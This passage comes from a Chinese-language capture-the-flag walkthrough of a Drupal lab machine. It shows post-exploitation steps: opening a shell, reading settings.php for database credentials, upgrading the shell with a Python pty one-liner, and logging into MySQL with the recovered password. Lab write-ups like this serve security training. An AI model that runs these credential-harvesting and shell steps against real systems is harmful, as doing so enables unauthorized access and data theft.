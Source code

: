 ### 3.漏洞利用

连接上后，进入后渗透模块

![image-20221001004221080](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010042122.png)

```
shell:获得网站后台权限
ls:列举目录
发现flag1.txt
cat flag1.txt查看内容 
```

flag1中提示到：``Every good CMS needs a config file - and so do you`` 

简单翻译一下就是：每个好的cms都需要一个配置文件，你也是！ 

每个网站的配置文件的位置不同，有时候需要经验，有时候很明显

这里是``/sites/default/settings.php``

![image-20221001005039782](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010050842.png)



```
配置文件中，很明显可以找到flag2的内容：
Brute force and dictionary attacks aren't the only ways to gain acess (and you WILL need access).
What can you do with these credentitals?

暴力和字典攻击并不是获得访问权限的唯一方法（您需要访问权限）。
你能用这些凭证做什么？
```

继续往下看配置文件，我们可以看到一些数据库的信息

使用`netstat -anptl`查看3306是否开放，结果只允许本地连接

![image-20221001005920025](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010059066.png)

写一个python交互：`python -c "import pty;pty.spawn('/bin/bash')"` 

```
  python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20221001010357593](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010103618.png)

登入数据库 `mysql -u dbuser -p R0ck3t` 即可。

![image-20221001010524012](https://luminary74-1312852271.cos.ap-beijing.myqcloud.com/202210010105048.png)

```
show databases; //查看数据库
use drupaldb;  //使用drupaldb数据库
show tables;  //查看表
```
